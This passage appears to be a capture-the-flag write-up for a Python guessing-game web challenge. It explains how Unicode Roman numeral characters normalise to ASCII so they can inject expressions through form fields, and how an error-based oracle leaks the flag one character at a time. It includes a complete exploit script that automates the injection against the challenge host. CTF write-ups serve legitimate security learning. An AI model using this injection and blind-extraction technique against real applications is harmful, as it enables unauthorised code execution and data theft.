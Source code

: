 These letters can be included in operators, so expressions like `A  =ⅠTEMS` are valid and are evaluated as `A = ITEMS` in Python.

Similarly:

* You can get an item of an iterable using `A =Ⅴ[N]`.
* You can call a function that has fewer than 3 letters by doing `V  = chr`, then `W  =Ⅴ(N)`.

There is probably no way to leak the flag directly, but we can detect whether the expression raised an error because it will return `-Sorry, wrong guess.` instead of `Sorry, wrong guess.`.
We can detect whether the character `c` has the code point `n` by executing code equivalent to `1/(ord(c)-n)` and checking for a zero-division error.

### Full Exploit

```python
import requests
import re

# URL = "http://localhost:5000/"
URL = "http://89f1db35b9.ctf.0bscuri7y.xyz/"

s = requests.session()

def run(s, v1, v2, v3):
    
    r = s.post(URL + "create", data={
        "actual": v1,
        "operator": v2
    })
    gid = re.findall(r'href="/play/([^"]+)"', r.text)[0]
    r = s.post(URL + f"play/{gid}", data={
        "guess": v3,
    })
    return r.text


run(s, "V  ", "=Ⅰ", "TEM")
run(s, "X  ", "= ", "ord")
known = ""
for i in range(0,100):
    run(s, "A  ", "= ", str(i).rjust(3))
    run(s, "A  ", "=Ⅴ", "[A]")
    run(s, "A  ", "=Ⅹ", "(A)")
    run(s, "A  ", "-=", "33 ")
    j = 33
    while True:
        r = run(s, "XXX", "= ", "1/A")
        if "-Sorry, wrong guess." in r:
            known += chr(j)
            print(known)
            break
        run(s, "A  ", "-=", "1  ")
        j += 1
        print("next ", i, j)
```

